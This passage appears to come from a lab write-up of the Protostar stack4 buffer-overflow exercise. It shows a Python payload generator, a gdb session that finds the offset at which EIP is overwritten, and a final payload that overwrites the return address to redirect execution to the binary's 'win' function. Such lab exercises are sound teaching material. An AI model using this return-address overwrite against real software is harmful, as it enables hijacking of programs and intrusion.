 Now we want to find out where the EIP gets overwritten and then redirect to win there. We can use `peda` or `metasploit` to generate us a pattern to automate this, but for now let's do it manually.

First we write a python script to generate our attack string. We know the buffer is 64 chars long so we try.

```bash
user@protostar:/tmp$ cat stack4.py
print "A" * 64 + "B" * 4 + "C" * 4 + "D" * 4 + "E" * 4
user@protostar:/tmp$ python stack4.py > stack4.txt
```
Now we:

1. `gdb` against stack4

```
user@protostar:/tmp$ gdb -q /opt/protostar/bin/stack4
```

2. input our string

```
Reading symbols from /opt/protostar/bin/stack4...done.
(gdb) r < stack4.txt
(gdb) r < stack4.txt
Starting program: /opt/protostar/bin/stack4 < stack4.txt

Program received signal SIGSEGV, Segmentation fault.
0x45454545 in ?? ()
```

3. Inspect EIP for what value overwrote it

```
(gdb) i r
eax            0xbffff720       -1073744096
ecx            0xbffff720       -1073744096
edx            0xb7fd9334       -1208118476
ebx            0xb7fd7ff4       -1208123404
esp            0xbffff770       0xbffff770
ebp            0x44444444       0x44444444
esi            0x0      0
edi            0x0      0
eip            0x45454545       0x45454545
eflags         0x210246 [ PF ZF IF RF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
```
EIP = 45s which is the letter E. So we replace our Es with the memory address and we should redirect the program.

```bash
user@protostar:/tmp$ cat stack4.py
print "A" * 64 + "B" * 4 + "C" * 4 + "D" * 4 + "\xf4\x83\x04\x08"
...
(gdb) r < stack4.txt
Starting program: /opt/protostar/bin/stack4 < stack4.txt
code flow successfully changed
```
And outside gdb
```bsh
user@protostar:/tmp$ /opt/protostar/bin/stack4 < stack4.txt
code flow successfully changed
```
